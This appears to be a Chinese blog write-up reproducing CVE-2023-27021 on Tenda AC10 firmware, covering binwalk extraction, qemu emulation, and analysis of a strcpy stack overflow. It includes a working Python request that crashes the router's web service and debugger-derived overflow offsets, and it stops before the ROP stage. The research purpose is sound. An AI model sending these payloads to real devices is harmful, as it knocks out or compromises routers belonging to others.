


# CVE-2023-27021 漏洞挖掘及利用

本文尝试通过 tenda 的一个固件对 CVE-2023-27021 进行复现，利用漏洞实现 RCE

CVE 简介：


## 固件下载及提取

[CVE 中对应的固件下载地址](https://www.tenda.com.cn/material/show/3506)

binwalk 提取固件

```bash
binwalk -Me US_AC10V4.0si_V16.03.10.13_cn_TDC01.bin
```

成功拿到了如下的根文件系统


## 固件模拟

既然拿到了根文件系统了，那就直接 chroot 了


由于是 mips 架构的，需要 qemu 来模拟执行，这里进行用户态仿真就行了，这里要注意是小端序（LSB）

> qemu-mips-static 是针对大端序 MPIS（MIPS-BE）的
>
> qemu-mipsel-static 是针对小端序 MPIS（MIPS-LE）的

```bash
sudo apt install qemu-user-static

cp /usr/bin/qemu-mipsel-static .
sudo chroot . ./qemu-mipsel-static  ./bin/httpd
```


这里就一直卡在这里了。在 IDA 中搜索 WeLoveLinux 字符串定位到这里


```c
while ( 1 )
{
	lan_ifname = ifaddrs_get_lan_ifname();
	if ( ifaddrs_get_ifip(lan_ifname, v10) >= 0 )
 	break;
	sleep(1u);
}
```

这里可以看到，程序一直在寻找一个可用的局域网接口并尝试获取 IP，由于是在 chroot 的环境下，程序无法查询网络接口，所以就一直卡死在了这个循环里。

虽然这里可以直接 patch 掉，但为了更好地复现漏洞，我们还是给它提供真实的网桥和 IP。

网桥的作用就是连接多个网络接口，使它们之间能相互通信。在这种虚拟化的环境中，网桥允许虚拟机通过主机的网络设备访问外部网络或与主机通信。

这里就用 brctl 创建虚拟网桥连接主机的接口，路由器通过该网桥与主机和外部网络通信

```bash
sudo brctl addbr br0            # 创建网桥
sudo brctl addif br0 enp2s0     # 添加主机接口
sudo ifconfig br0 up            # 激活网桥
sudo dhclient br0               # 从 dhcp 服务器获得 br0 的 IP 
```

然后再次启动即可




这里需要把 webroot_ro 文件夹下的内容复制到 webroot 文件夹中

```bash
cp -r webroot_ro/* var/webroot/
```

再次启动即可正常访问



## 漏洞测试（DoS）

根据 CVE 的描述，问题出现在 formSetFirewallCfg 这个函数里面，先找到它


这里注意到 strcpy 这个函数，在不对 s 作长度限制的情况下直接 copy 到了栈上，这就可能存在栈溢出的洞

我们先来看看这个函数是干什么的，看一下引用


websFormDefine 是干什么的呢，这里我们来看看流量


比如这里的 GetRouterStatus，结合下图，可以猜测 websFormDefine 可能是用来设置不同的 url 接口的处理函数


再比如我们点击家长控制，就会请求 /goform/GetParentCtrlList


formSetFirewallCfg 从名字上看应该和防火墙有什么关系，我们点击一下防火墙功能


基本可以确定我们的目标 url 路径是 /goform/SetFirewallCfg 了

再次回到 formSetFirewallCfg 这个函数，我们需要控制传入 strcpy 的变量 s，`s = (char *)websGetVar(a1, "firewallEn", "1111");` 

websGetVar 可能表明要传入的变量名是 firewallEn，如果是这样的话，我们可以先来尝试一下 dos 攻击

```python
import requests

url = 'http://192.168.2.165/goform/SetFirewallCfg'


payload = 'a'*0x300


data = {"firewallEn": payload}

response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

发包以后无法获得响应，chroot 进程直接卡死了，web 界面也无法访问了，dos 攻击成功

## RCE

要想 rce，那我们就得精心构造合适的 payload。先来学一下 [mips-rop](./mips.md)

### 跟踪调用

先来调试一下看看我们的 payload 是怎样布置到栈上的

```bash
sudo chroot . ./qemu-mipsel-static -g 1234 ./bin/httpd
```

```bash
gdb-multiarch httpd
pwndbg> target remote 192.168.2.180:1234
```

我们先在 `formSetFirewallCfg` 的位置打上断点，然后 c 一下让服务跑起来，此时 httpd 正在等待我们的请求，我们来测试一下

```python
import requests

url = 'http://192.168.2.165/goform/SetFirewallCfg'


payload = 'test'


data = {"firewallEn": payload}

response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

 

这里可以看到，websGetVar 函数处理后得到的就是我们传入的 'test'


strcpy 之后，'test' 就被复制到 $sp+0x28 的位置了。所以这里的溢出还是很好利用的，我们前面的猜测也是完全正确的。


$sp+0xbc 的位置保存着返回地址。前面我们 pos 的时候正是将这里覆盖成了一个无效的地址而导致函数返回的时候崩溃。

### 漏洞利用（ROP）


这里可以看到，栈是不可执行的，所以 `shellcode in stack` 的链子就打不了了。
